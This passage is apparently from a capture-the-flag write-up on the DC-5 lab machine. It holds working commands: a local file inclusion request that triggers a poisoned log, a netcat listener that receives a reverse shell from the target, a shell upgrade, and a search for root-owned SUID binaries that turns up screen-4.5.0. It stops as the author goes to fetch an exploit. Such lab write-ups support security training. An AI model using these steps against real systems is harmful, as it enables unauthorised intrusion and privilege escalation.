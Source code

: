 ~~~
kali@kali:/data/DC_5$ curl -s http://dc-5/thankyou.php?file=/var/log/nginx/access.log
~~~

## Reverse shell

And now, we have a reverse shell:

~~~
kali@kali:/data/DC_5$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.160] 43771
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-5:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Privilege escalation

## SUID programs owned by root

Checking for files owned by root with the SUID bit set reveals an interesting program (`screen-4.5.0`):

~~~
www-data@dc-5:~/html$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0 <---------- interesting!
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
www-data@dc-5:~/html$ 
~~~

## Downloading the exploit

Searching on exploit-db will reveal that we can exploit it for a privilege escalation:
